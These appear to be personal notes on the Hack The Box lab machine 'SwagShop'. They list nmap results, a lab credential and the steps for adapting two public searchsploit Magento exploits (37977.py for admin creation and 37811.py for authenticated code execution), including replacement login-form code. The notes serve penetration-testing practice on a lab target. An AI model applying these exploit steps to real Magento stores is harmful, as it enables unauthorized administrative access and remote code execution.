----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# SwagShop
# 14/3/2023
10.10.10.140

----------------------------------------------------
# creds
----------------------------------------------------
Check http://10.10.10.140/admin with creds forme:forme


----------------------------------------------------
# nmap
----------------------------------------------------
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))


----------------------------------------------------
# exploitation
----------------------------------------------------
http://10.10.10.140/app/etc/local.xml

└─$ searchsploit magento    
└─$ searchsploit -m 37977.py

comments all not related stuff in exploit
and add target ip
add index.php
->target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"
in code
Check http://10.10.10.140/admin with creds forme:forme


└─$ searchsploit -m 37811.py
edit/enter creds in exploit

comment this stuff
'''
br.select_form(nr=0)
br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
br.form.fixup()  
br['login[username]'] = username
br['login[password]'] = password
'''
replace with

userone = br.find_control(name="login[username]", nr=0)
userone.value = username
pwone = br.find_control(name="login[password]", nr=0)
pwone.value = password



edit this

request = br.open(url + 'block/tab_orders/period/2y/?isAjax=true', data='isAjax=false&form_key=' + key)



